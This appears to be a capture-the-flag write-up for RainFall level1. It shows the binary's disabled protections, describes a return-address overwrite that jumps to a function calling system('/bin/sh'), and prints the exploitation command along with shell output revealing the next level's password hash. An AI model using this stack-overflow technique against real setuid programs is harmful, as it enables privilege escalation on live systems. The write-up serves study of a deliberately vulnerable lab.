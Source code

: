 # level1

## Header

```bash
ssh level1@$IP -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

<hr>

## Solution

[Disassembling](./source.s) gives us important information:
There is a function called `run` that contains `system("/bin/sh")` call. <br>
To use the exploit, we need to overload the buffer in the `main` function and overwrite return address. <br>

Download or clone [payload](./payload.py) to any folder with write access (`/tmp` is a good option) and <br>
run the following command:
```bash
python /tmp/payload.py
```

This will produce payload file that should be used to exploit the binary:

```bash
level1@RainFall:~$ (cat /tmp/payload; cat) | ./level1
Good... Wait what?
cd ../level2
ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## References

- [This is why you should pass payload to binary like that](https://security.stackexchange.com/questions/155832/system-bin-sh-exits-without-waiting-for-user-input-overthewire-narnia0-chal)